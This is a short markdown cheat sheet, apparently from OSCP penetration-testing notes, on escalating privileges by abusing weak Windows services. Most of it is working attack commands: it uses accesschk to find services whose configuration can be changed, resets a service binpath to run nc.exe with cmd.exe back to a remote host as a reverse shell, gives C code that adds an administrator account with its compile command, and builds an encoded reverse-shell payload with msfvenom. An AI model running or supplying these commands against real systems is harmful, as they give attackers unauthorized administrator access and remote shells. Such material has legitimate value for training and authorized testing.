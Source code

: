# Weak Services

## Abuse service via BinPath

Search for a services which are running under priviliaged account, then use the following command with accesschk.exe to verify if our current user has permission to modify its settings:

```
C:\> accesschk.exe -wuvc myservice
```

Look for the “SERVICE_CHANGE_CONFIG” in the response. Then use the following command to execute net user instend of service bin:

```
C:\> sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 192.168.10.11 1234 -e C:\WINDOWS\System32\cmd.exe"
```

## Abuse service via Unquoted Paths

For more detailed technique: https://github.com/RootInj3c/OSCP-PwK/blob/master/Windows/Unquoted_Paths.md


## Appendix - Creating malicous services

### Manully using C

Using the following code:

```
#include <stdlib.h>
int main ()
{
    int i;
    i = system("net localgroup administrators theusername /add");
    return 0;
}
```

Compile it using Kali:

```
root@kali:~/# nano adduser.c
root@kali:~/# i686-w64-mingw32-gcc adduser.c -lws2_32 -o exp.exe
```

### Using Metasploit

Execute the following command to get pre-compiled malicous binary:

```
root@kali:~/# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.10.11 LPORT=443 -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe
```



